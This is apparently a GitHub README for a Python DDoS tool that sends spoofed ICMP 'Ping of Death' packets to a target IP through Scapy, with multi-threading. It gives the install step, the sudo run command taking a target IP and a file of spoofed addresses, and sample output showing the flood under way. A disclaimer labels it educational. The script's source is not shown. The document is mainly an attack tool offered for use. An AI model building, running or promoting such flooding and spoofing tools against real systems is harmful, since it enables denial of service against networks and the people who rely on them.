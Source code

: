 # Simple DDoS with IP Spoofing by **rajexploit404**

A straightforward Python script for **Ping of Death (PoD)** attacks with IP spoofing. Built for educational and research purposes only. Misuse of this tool is strictly prohibited.

---

## **Features**
- Uses **Scapy** to send spoofed ICMP packets.
- Supports **multi-threading** and **multi-processing** for optimal performance.
- Customizable input for spoofed IP lists and target IPs.
- Designed with a clear and professional **RAJSEC banner**.

---

## **Banner**

```plaintext
  ██████╗  █████╗      ███████╗███████╗███████╗ ██████╗
 ██╔════╝ ██╔══██╗     ██╔════╝██╔════╝██╔════╝██╔═══██╗
 ██║  ███╗███████║     ███████╗█████╗  █████╗  ██║   ██║
 ██║   ██║██╔══██║     ╚════██║██╔══╝  ██╔══╝  ██║   ██║
 ╚██████╔╝██║  ██║     ███████║███████╗██║     ╚██████╔╝
  ╚═════╝ ╚═╝  ╚═╝     ╚══════╝╚══════╝╚═╝      ╚═════╝
 
  Simple PoD with IP Spoofed by rajexploit404
```

---

## **Requirements**
1. **Python 3.8+**
2. **Scapy Library**: Install using:
   ```bash
   pip install scapy
   ```
3. Root privileges (**sudo**) are required for sending raw packets.

---

## **Usage**
Run the script with the following syntax:
```bash
sudo python3 final.py <target_ip> <spoofed_ip_list>
```

### **Parameters**
- **`<target_ip>`**: The target IP address to flood.
- **`<spoofed_ip_list>`**: File containing spoofed IP addresses, one per line.

---

## **Example**

```bash
┌──(rajexploit404㉿rajsec)-[~/POD]
└─$ sudo python3 final.py 123.123.123.123 spoof.txt
```

Output:

```plaintext
  ██████╗  █████╗      ███████╗███████╗███████╗ ██████╗
 ██╔════╝ ██╔══██╗     ██╔════╝██╔════╝██╔════╝██╔═══██╗
 ██║  ███╗███████║     ███████╗█████╗  █████╗  ██║   ██║
 ██║   ██║██╔══██║     ╚════██║██╔══╝  ██╔══╝  ██║   ██║
 ╚██████╔╝██║  ██║     ███████║███████╗██║     ╚██████╔╝
  ╚═════╝ ╚═╝  ╚═╝     ╚══════╝╚══════╝╚═╝      ╚═════╝

  Simple PoD with IP Spoofed by rajexploit404

[?] Loaded 3000 spoofed IPs from spoof.txt
[?] Starting packet flood...
[+] Packet sent from 31.147.186.29 to 123.123.123.123
[+] Packet sent from 28.160.190.195 to 123.123.123.123
[+] Packet sent from 136.91.104.67 to 123.123.123.123
[+] Packet sent from 165.98.179.114 to 123.123.123.123
[+] Packet sent from 176.40.228.221 to 123.123.123.123
[+] Packet sent from 93.161.149.146 to 123.123.123.123
```

---

## **Invalid Usage**

If the script is run without `sudo` or with insufficient arguments, the following error is displayed:

```plaintext
[!] This script must be run with sudo privileges!
Usage: sudo python3 final.py <target_ip> <spoofed_ip_list>
```

---

## **Disclaimer**
This tool is for **educational purposes only**. Use it responsibly and only with the explicit permission of the target. Misuse can result in legal consequences.
